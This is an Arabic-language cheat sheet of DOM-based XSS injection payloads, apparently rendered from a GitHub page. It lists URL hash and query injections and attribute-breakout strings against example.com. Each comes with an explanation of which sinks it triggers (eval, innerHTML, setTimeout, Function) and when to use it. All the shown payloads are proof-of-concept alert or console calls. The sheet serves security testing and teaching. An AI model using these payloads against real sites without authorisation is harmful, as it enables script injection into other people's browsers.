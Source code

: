 ### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر تعديل مصادر الإدخال مثل `location.hash` أو `location.search` في المتصفح. الهدف هو تنفيذ JavaScript عبر DOM.

#### أ. الحقن عبر URL والهاش
استخدام `location.hash`، `location.search`، أو `document.location` لإدخال شيفرة JavaScript.
- **الحقن**: `#alert('XSS')`
  - **الإدخال**: `https://example.com/#alert('XSS')`
  - **كيف يعمل**: إذا استُخدمت قيمة `location.hash` في `eval` أو `innerHTML`، يُنفذ التنبيه.
  - **متى يُستخدم؟**: عندما يعالج JavaScript قيمة الهاش مباشرة.
- **الحقن**: `#javascript:alert('XSS')`
  - **الإدخال**: `https://example.com/#javascript:alert('XSS')`
  - **كيف يعمل**: يُنفذ كعنوان JavaScript إذا استُخدم في `location` أو `href`.
  - **متى يُستخدم؟**: لاختبار التلاعب بالعناوين.
- **الحقن**: `#console.log('XSS')`
  - **الإدخال**: `https://example.com/#console.log('XSS')`
  - **كيف يعمل**: يسجل "XSS" في وحدة التحكم إذا استُخدم في `eval`.
  - **متى يُستخدم؟**: لتأكيد التنفيذ دون تنبيه.
- **الحقن**: `#alert(document.domain)`
  - **الإدخال**: `https://example.com/#alert(document.domain)`
  - **كيف يعمل**: يعرض النطاق، مؤكدًا سياق التنفيذ.
  - **متى يُستخدم؟**: لتأكيد النطاق.
- **الحقن**: `?param=<img src=x onerror=alert('XSS')>`
  - **الإدخال**: `https://example.com/?param=<img src=x onerror=alert('XSS')>`
  - **كيف يعمل**: إذا استُخدمت `location.search` في `innerHTML`، يُنفذ التنبيه.
  - **متى يُستخدم؟**: لاختبار معلمات URL.
- **الحقن**: `#eval('alert(1)')`
  - **الإدخال**: `https://example.com/#eval('alert(1)')`
  - **كيف يعمل**: يُنفذ التنبيه عبر `eval` إذا استُخدمت قيمة الهاش.
  - **متى يُستخدم؟**: لاختبار الدوال الخطرة.
- **الحقن**: `#setTimeout('alert(\"XSS\")',0)`
  - **الإدخال**: `https://example.com/#setTimeout('alert(\"XSS\")',0)`
  - **كيف يعمل**: يُنفذ التنبيه عبر `setTimeout` إذا استُخدمت القيمة.
  - **متى يُستخدم؟**: لاختبار تنفيذ الشيفرة المؤخر.
- **الحقن**: `#Function('alert(\"XSS\")')()`
  - **الإدخال**: `https://example.com/#Function('alert(\"XSS\")')()`
  - **كيف يعمل**: يُنفذ التنبيه عبر باني `Function`.
  - **متى يُستخدم؟**: لتجاوز فلاتر العميل.

#### ب. الحقن عبر سمات العناصر
التلاعب بالسمات أو القيم التي تُستخدم في DOM.
- **الحقن**: `#" onload="alert('XSS')`
  - **الإدخال**: `https://example.com/#" onload="alert('XSS')`
  - **كيف يعمل**: يُغلق سمة HTML ويُنفذ التنبيه إذا استُخدمت القيمة في `innerHTML`.
  - **متى يُستخدم؟**: عند اختبار الخروج من السمات.
- **الحقن**: `#" onfocus="alert(1)" autofocus`
  - **الإدخال**: `https://example.com/#" onfocus="alert(1)" autofocus`
  - **كيف يعمل**: يُنفذ التنبيه عند تركيز العنصر إذا استُخدمت القيمة في حقل إدخال.
  - **متى يُستخدم؟**: في النماذج التفاعلية.
- **الحقن**: `#"><svg onload=alert('XSS')>`
  - **الإدخال**: `https://example.com/#"><svg onload=alert('XSS')>`
  - **كيف يعمل**: يخرج من سمة ويُنفذ التنبيه عند تحميل SVG.
  - **متى يُستخدم؟**: لاختبار إدخال وسوم HTML5.
- **الحقن**: `#" onclick="alert('XSS')`
  - **الإدخال**: `https://example.com/#" onclick="alert('XSS')`
  - **كيف يعمل**: يُنفذ التنبيه عند النقر إذا استُخدمت القيمة في `innerHTML`.
  - **متى يُستخدم؟**: لاختبار الأحداث التفاعلية.
- **الحقن**: `#" onerror="alert(1)" src=x`
  - **الإدخال**: `https://example.com/#" onerror="alert(1)" src=x`
  - **كيف يعمل**: يُنفذ التنبيه عند فشل تحميل مصدر.
  - **متى يُستخدم؟**: لاختبار أحداث الأخطاء.
